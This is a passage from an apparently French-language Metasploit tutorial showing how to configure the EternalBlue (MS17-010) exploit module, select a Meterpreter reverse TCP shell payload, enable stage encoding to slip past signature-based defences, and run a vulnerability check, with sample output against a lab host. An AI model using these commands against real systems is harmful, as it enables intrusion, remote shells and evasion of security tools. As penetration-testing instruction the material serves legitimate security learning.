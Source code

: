 ```
# Affichage des payloads compatibles
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads

# Sélection d'un payload spécifique
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

### Configuration du payload

```
# Configuration des options du payload
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4444
msf6 exploit(windows/smb/ms17_010_eternalblue) > set EXITFUNC thread

# Options avancées du payload
msf6 exploit(windows/smb/ms17_010_eternalblue) > set EnableStageEncoding true
msf6 exploit(windows/smb/ms17_010_eternalblue) > set StageEncoder x64/xor
```

### Encodage et évasion des défenses

Pour contourner les solutions de sécurité, vous pouvez encoder vos payloads :

```
# Affichage des encodeurs disponibles
msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders

# Utilisation d'un encodeur spécifique
msf6 exploit(windows/smb/ms17_010_eternalblue) > set EnableStageEncoding true
msf6 exploit(windows/smb/ms17_010_eternalblue) > set StageEncoder x64/xor
msf6 exploit(windows/smb/ms17_010_eternalblue) > set StageEncodingFallback false
```

> **POURQUOI ?**  
> L'encodage des payloads peut aider à contourner certaines solutions de sécurité basées sur des signatures. Cependant, les solutions modernes utilisent souvent des analyses comportementales qui peuvent détecter même les payloads encodés.

## Vérification et exécution de l'exploit

### Vérification de la vulnérabilité (check)

Avant d'exécuter un exploit, utilisez la commande `check` si elle est disponible :

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > check
```

Exemple de sortie :
```
[*] 192.168.1.100:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.1.100:445 - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
[*] 192.168.1.100:445 - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.1.100:445 - The target is vulnerable.
```
